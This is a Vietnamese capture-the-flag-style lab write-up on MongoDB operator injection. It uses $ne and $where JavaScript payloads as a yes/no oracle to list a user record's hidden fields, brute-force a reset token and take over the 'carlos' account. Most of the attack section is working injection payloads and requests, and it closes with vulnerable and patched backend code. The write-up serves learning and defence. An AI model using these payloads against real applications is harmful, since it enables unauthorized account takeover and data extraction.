# 1. Mục tiêu
Đăng nhập làm **carlos**. Carlos bị khóa, buộc phải reset password, mà reset thì chỉ báo "check mail". Hướng đi: dùng **operator injection + `$where` (JavaScript)** để liệt kê các **field ẩn** của record, tìm ra token reset, rồi tự tay hoàn tất luồng reset.

# 2. Recon
Thử đăng nhập `carlos` với mật khẩu bừa:
```json
{"username":"carlos","password":"aaaa"}
```
→ `Invalid username or password` (đây là mốc **FALSE**).


Escape password bằng operator cũ (`$ne`):
```json
{"username":"carlos","password":{"$ne":""}}
```
→ `Account locked: please reset your password`. Operator chạy được; và đây là mốc **TRUE** (account tồn tại, khớp).


Bấm reset thì app chỉ báo:


"Please check your email for a reset password link." — bế tắc kiểu bình thường, vì mình không có hộp mail của carlos. Phải moi token reset bằng đường khác.

# 3. Exploit
**Xác nhận `$where` chạy JS (dựng oracle):**
```json
{"username":"carlos","password":{"$ne":""}, "$where":"1"}
```


`$where:"1"` → `Account locked` (**TRUE**); đổi thành `$where:"0"` → `Invalid username or password` (**FALSE**). Hai trạng thái khác nhau = JavaScript trong `$where` được thực thi → ta có oracle để mò mọi thứ.

**Liệt kê tên các field ẩn** bằng `Object.keys(this)` + Intruder Cluster bomb (position: index field, vị trí ký tự, ký tự):
```json
{"username":"carlos","password":{"$ne":""}, "$where":"Object.keys(this)[§0§].match('^.{§0§}§a§.*')"}
```



Đọc kết quả theo từng index field → ra danh sách field: **field 0: `_id`, field 1: `username`, field 2: `password`, field 3: `email`, field 4: `newPwdTkn`**.

> **Hai cái bug tự dẫm phải khi viết payload này:**
> - **`^.{}.*` (ngoặc rỗng):** `{}` không phải quantifier hợp lệ → regex engine coi là literal → không bao giờ khớp. Phải có số: `^.{2}a.*`.
> - **`Object.keys(this)[5]`:** `_id` nằm ở index 0, nên `[1]` mới là `username`. Chọn index vượt số field (vd `[5]` khi chỉ có 5 field) → `undefined.match()` → **500**. Chính cái 500 này lại là tín hiệu "đã hết field".

Thành thật là tới đây **mình bị tắc =)))** — có đủ tên field nhưng không biết dùng `newPwdTkn` thế nào. Phải liếc tí hint mới nhớ ra cần để ý endpoint **`/forgot-password`**.

**Tìm lại endpoint reset trong HTTP history:**


> **Làm sao tự suy ra phải nộp `newPwdTkn` ngược lại `/forgot-password`?** Suy luận từ bản chất chức năng: một token reset **sinh ra để được nộp lại** ở đâu đó (thường là query param trên endpoint reset). Token đi tới người dùng qua **link trong email**, mà link thì luôn là **GET** mang token trên URL. Vậy luồng reset có 3 chặng: (1) `GET /forgot-password` mở form; (2) `POST /forgot-password` nhập username → sinh token + gửi mail; (3) `GET /forgot-password?token=...` = **bấm link trong email**. Mình không đọc được mail, nên sẽ **giả lập chặng 3** bằng token moi từ DB. Muốn chắc tên param: probe vi phân — `?foo=invalid` (bị kệ) vs `?newPwdTkn=invalid` (→ "Invalid token"); lỗi "Invalid token" là **tin tốt** (đúng param + đúng endpoint).

**Moi giá trị `newPwdTkn`** bằng oracle (trước đó phải kích hoạt reset để token được nạp vào record) — dò độ dài rồi dò từng ký tự:
```json
{"username":"carlos","password":{"$ne":""}, "$where":"this.newPwdTkn.length==§1§"}
```

```json
{"username":"carlos","password":{"$ne":""}, "$where":"this.newPwdTkn.match('^.{§0§}§a§.*')"}
```


Ghép kết quả Cluster bomb theo vị trí 0→15 → token **16 ký tự: `dba58f237cc28aab`** (charset hẹp, hex `0-9a-f`).


**Giả lập chặng 3 — nộp token qua GET:**
```http
GET /forgot-password?newPwdTkn=dba58f237cc28aab HTTP/2
```


Server chấp nhận token, hiện form `New password` / `Confirm new password`. Đặt mật khẩu mới (vd `123456`), submit, rồi đăng nhập `carlos` với mật khẩu mới → `My Account` hiện "Your username is: carlos". Hoàn thành lab.


> **Vài lưu ý khi kéo giá trị token:** dùng character class để tránh metachar (`.` `+` khớp mọi ký tự → dương tính giả): `^.{i}[X].*`. Token reset thường hẹp (hex) nên thu charset lại để Intruder chạy nhanh. Thêm **lá chắn undefined** `this.newPwdTkn && this.newPwdTkn.match(...)` để field rỗng short-circuit thành FALSE sạch thay vì văng 500.

# 4. Mô phỏng backend xử lý
```javascript
// [LỖI] — ném thẳng req.body vào làm filter -> operator injection + $where
const user = db.users.findOne(req.body);
// client gửi {"username":"carlos","password":{"$ne":""},"$where":"..."}
// -> cả $ne lẫn $where lọt vào query, $where chạy JS tùy ý attacker
if (user && user.locked) return "Account locked: please reset your password";
if (user) return login(user);
return "Invalid username or password";
```
Hai cái sai: (1) **tin req.body là string** nên `{"$ne":""}` thành toán tử; (2) **chuyển nguyên body thành filter** nên attacker gắn được `$where` để chạy JavaScript, biến mỗi request thành một câu hỏi Yes/No về cấu trúc và nội dung record.

# 5. Cách vá
```javascript
// Chỉ lấy đúng field cần, ép kiểu string; không bao giờ spread cả body vào query
const username = String(req.body.username);
const password = String(req.body.password);
const user = db.users.findOne({ username, password });   // không còn chỗ cho $ne / $where
```
Nguyên tắc: ép kiểu/validate theo schema (ODM như Mongoose), **không truyền thẳng object từ client vào truy vấn**, và **tắt hoàn toàn `$where`/`mapReduce`** ở tầng DB nếu không dùng — chỉ cần tắt JS execution là chặn đứng toàn bộ nhánh liệt kê field này. Token reset nên là một lần dùng, hết hạn nhanh, và không lưu ở dạng đọc được qua truy vấn thường.
